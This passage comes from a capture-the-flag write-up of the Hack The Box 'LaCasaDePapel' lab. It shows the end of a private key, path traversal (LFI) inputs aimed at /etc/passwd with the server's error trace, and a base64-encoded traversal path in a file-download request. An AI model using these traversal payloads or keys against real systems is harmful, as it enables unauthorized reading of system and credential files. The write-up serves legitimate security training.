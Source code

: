 ```
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """


```

Not even necessary to serialize nothing, great! 

To create a client certificate that is accepted by the server, you need to follow these steps: [[Cheatsheets/Create Client Certificate]]

After following the steps and entering in https://lacasadepapel.htb/ we can now access! 

We now see a lot of empty `.avi` files on it. 

Let's try some LFI and we observe something interesting:
```
# PRIVATE AREA

Error: ENOENT: no such file or directory, scandir '/home/berlin/downloads/../../../../../../../etc/paswd/'  
    at Object.fs.readdirSync (fs.js:904:18)  
    at /home/berlin/server.js:10:20  
    at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)  
    at next (/home/berlin/node_modules/express/lib/router/route.js:137:13)  
    at Route.dispatch (/home/berlin/node_modules/express/lib/router/route.js:112:3)  
    at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)  
    at /home/berlin/node_modules/express/lib/router/index.js:281:22  
    at Function.process_params (/home/berlin/node_modules/express/lib/router/index.js:335:12)  
    at next (/home/berlin/node_modules/express/lib/router/index.js:275:10)  
    at expressInit (/home/berlin/node_modules/express/lib/middleware/init.js:40:5
```

And AAAAAALLL RIGT we have a huuuge LFI over there:
https://lacasadepapel.htb/?path=../../../../../../../
And we are in `/`

Let's now check how the files are being downloaded:

```
Request URL:
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vZG93bmxvYWRzL1NFQVNPTi0xLzEwLmF2aQ==
Request Method:
GET
Status Code:
200 OK
Remote Address:
10.10.10.131:443
Referrer Policy:
strict-origin-when-cross-origin
```
